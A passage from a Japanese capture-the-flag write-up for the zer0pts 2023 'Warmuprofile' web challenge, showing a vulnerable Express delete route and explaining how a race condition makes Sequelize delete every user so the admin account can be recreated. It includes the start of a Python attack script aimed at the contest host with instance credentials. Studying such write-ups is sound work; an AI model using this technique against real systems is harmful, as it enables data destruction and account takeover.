 また、この問題では参加者ごとにインスタンス単位で環境が隔離されているため、なんらかのアプリケーション全体に影響するような攻撃が可能だというメタ読みができます。

### 解法

ソースコードを眺めていると、アカウント削除の処理でどうやら変なフレームワークの使い方をしています。

```javascript
app.post('/user/:username/delete', needAuth, async (req, res) => {
    const { username } = req.params;
    const { username: loggedInUsername } = req.session;
    if (loggedInUsername !== 'admin' && loggedInUsername !== username) {
        flash(req, 'general user can only delete itself');
        return res.redirect('/');
    }

    // find user to be deleted
    const user = await User.findOne({
        where: { username }
    });

    await User.destroy({
        where: { ...user?.dataValues }
    });

    // user is deleted, so session should be logged out
    req.session.destroy();
    return res.redirect('/');
});
```

`user`がnullないしはundefinedのときに、テーブル内のデータ全削除が発生しそうです。実際にrace conditionでそれは可能です。

全削除をするとadminも消えるので、adminのアカウントを作り直してログインすることでフラグが手に入ります。

### 攻撃

```python
import httpx
import random
import string
import subprocess

# BASE_URL = "http://localhost:8600"
# CS_USERNAME = "name"
# CS_PASSWORD = "pass"

BASE_URL = "http://misc.2023.zer0pts.com:62954"
CS_USERNAME = "sdOKZXnqAzMNEBLF"
CS_PASSWORD = "lRAqcPxmvrUFZfEH"

client = httpx.Client(auth=(CS_USERNAME, CS_PASSWORD))

username = "".join(random.choices(string.ascii_letters, k=8))
password = "".join(random.choices(string.ascii_letters, k=8))

res = client.post(
    f"{BASE_URL}/register",
    data={
        "username": username,
        "password": password,
        "profile": "x",
    },
)
sid = res.cookies["connect.sid"]

```

[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。